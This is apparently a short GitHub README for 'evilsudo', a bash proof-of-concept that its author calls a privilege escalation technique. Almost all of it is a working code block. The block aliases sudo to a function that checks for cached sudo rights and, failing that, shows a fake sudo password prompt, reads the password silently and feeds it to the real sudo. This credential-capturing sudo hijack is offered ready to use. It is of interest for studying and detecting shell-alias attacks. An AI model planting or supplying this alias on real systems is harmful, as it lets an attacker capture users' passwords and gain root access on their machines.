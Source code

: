 # evilsudo
`evilsudo` is a privilege escalation technique Proof-Of-Concept

# proof-of-concept

```bash
alias sudo=evilsudo
function evilsudo() {
	if [ "$#" -gt "0" ]; then
		rights=$(echo "a" | /usr/bin/sudo -S whoami 2>/dev/null)
		if [ "$rights" == "root" ]; then
			$(which sudo) $@
		else
			original_params=$@
			echo -en "[sudo] password for $(whoami): "
			read -s password
			echo -en "\r"
			cmd=$(echo $password | $(which sudo) -S $original_params)
			echo -e ""
			echo "$cmd"
		fi
	else
		$(which sudo)
	fi
}
````
